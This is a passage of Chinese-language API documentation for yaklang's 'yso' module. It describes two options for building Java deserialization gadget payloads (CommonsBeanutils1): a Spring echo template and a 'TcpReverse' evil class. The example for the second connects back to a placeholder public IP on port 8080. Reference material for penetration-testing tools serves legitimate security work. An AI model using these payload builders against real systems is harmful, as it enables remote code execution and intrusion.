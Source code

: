 SetClassSpringEchoTemplate

## 参数说明

```
func GenClassOptionFun useSpringEchoTemplate()
```

**请求参数**


**返回类型**

- `r1` : 生成SpringEcho类的模板设置函数

## 示例代码

### 基础用法

设置生成SpringEcho类的模板

```yaklang
yso.GetCommonsBeanutils1JavaObject(yso.useSpringEchoTemplate(),yso.springHeader("Echo","Echo Check"))
```

## 93. `yso.useTcpReverseEvilClass`

## 功能描述

设置生成TcpReverse类的模板，同时设置指定的tcpReverseHost和tcpReversePort。

## 参数说明

```
func useTcpReverseEvilClass(host: string, port: number) => => GenClassOptionFun
```

**请求参数**

- `host` : 要设置的tcpReverseHost的host。
- `port` : 要设置的tcpReversePort的port。

**返回类型**

- `r1` : 返回一个GenClassOptionFun类型的值。

## 示例代码

### 基础用法

设置公网IP为host，端口号为8080，并生成TcpReverse类模板。

```yaklang
host = '公网IP'
token = uuid()
yso.GetCommonsBeanutils1JavaObject(yso.useTcpReverseEvilClass(host, 8080), yso.tcpReverseToken(token))
```
